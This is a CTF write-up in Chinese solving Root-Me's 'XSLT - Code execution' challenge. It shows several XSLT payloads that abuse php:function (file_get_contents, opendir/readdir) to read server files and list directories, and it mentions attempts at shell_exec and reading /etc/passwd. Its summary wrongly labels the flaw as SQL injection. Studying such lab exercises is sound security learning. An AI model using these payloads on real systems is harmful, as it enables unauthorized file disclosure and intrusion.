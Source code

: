 Root-Me [XSLT - Code execution](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
===

感覺像是選擇樣板的功能頁面(?

## 解題關鍵
1. SQL-Injection

## 提示訊息
```
Find the vulnerability and exploit it to read the file .passwd in a subdirectory of the challenge tree.
```

## 解題方法
首先參考官方提供的 `related ressource(s)`，其中有一份文件 [XSLT Processing Security and
Server Side Request Forgeries](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf) 很詳細說明該漏洞的實作方法，其中第 30 頁的部分如下。  

![](img/01.png)  

直接給出了 `Code Execution for php` 的利用方法，簡單的說漏洞利用有點像之前練習的 [XXE](https://mks.tw/2918/)，透過外部實體引入的方式進行攻擊。  

首先在外部伺服器創建一個 `mksyi.xsl` 並且設定檔案內容如下。  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
		<xsl:value-of select="php:function('file_get_contents', 'index.php')" />
	</xsl:template>
</xsl:stylesheet>
```

接著回到該題的頁面上，並且修改 POST 的內容為 `http://{HOST}/{file}.xsl` ，讓該頁面去讀取外部的 xsl，如下圖。  

![](img/02.png)  

成功讀取到 `index.php` 頁面，由於該次目標是 `.passwd`，直覺想到的是 `/etc/passwd`，但該題似乎有限制沒辦法讀取上層目錄，回應訊息如下。  

```
Warning: file_get_contents(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/challenge/web-serveur/ch50) in /challenge/web-serveur/ch50/index.php on line 13 Warning: file_get_contents(/etc/passwd): failed to open stream: Operation not permitted in /challenge/web-serveur/ch50/index.php on line 13 false
```

並且嘗試過 `system()`、`shell_exec()` 等方法執行系統指令，但回應訊息如下。  

```
Warning: shell_exec() has been disabled for security reasons in /challenge/web-serveur/ch50/index.php on line 13
```

然後折騰了好一段時間發現...這題真的有夠機車，先想辦法把目錄下的檔案 Dump 出來，使用的 `xsl` 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

接著拿到這樣的一串東西，如下。  

```
Resource id #6..beers.xml._nginx.http-level.incstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdee
```

簡單手工分析之後如下。  

```
esource id #6
beers.xml
_nginx.http-level.inc
style1.xsl
_nginx.server-level.inc
style2.xsl
_firewall
style3.xsl
index.php
_php-fpm.pool.inc
.6ff3200bee785801f420fba826ffcdee
```

這邊最可疑的檔案就是 `.6ff3200bee785801f420fba826ffcdee`，於是就用 `file_get_contents` 去讀取他，結果什麼東西都沒跑出來...，於是繼續探勘其他地方，直到想破頭，上 Rootme 社群找線索，發現文章（[傳送門](https://www.root-me.org/?page=forum&id_thread=10302&lang=en)）如下。  

![](img/03.png)  

看到該提示就恍然大悟，`.6ff3200bee785801f420fba826ffcdee` 可能是目錄，而不是檔案，而目標 `.passwd` 可能就藏在其中，所以修改 Payload 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

果不其然的出現了關鍵字!!  

![](img/04.png)  

接著就用 `file_get_contents` 讀取該檔案，解決該題...。  

![](img/05.png)  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)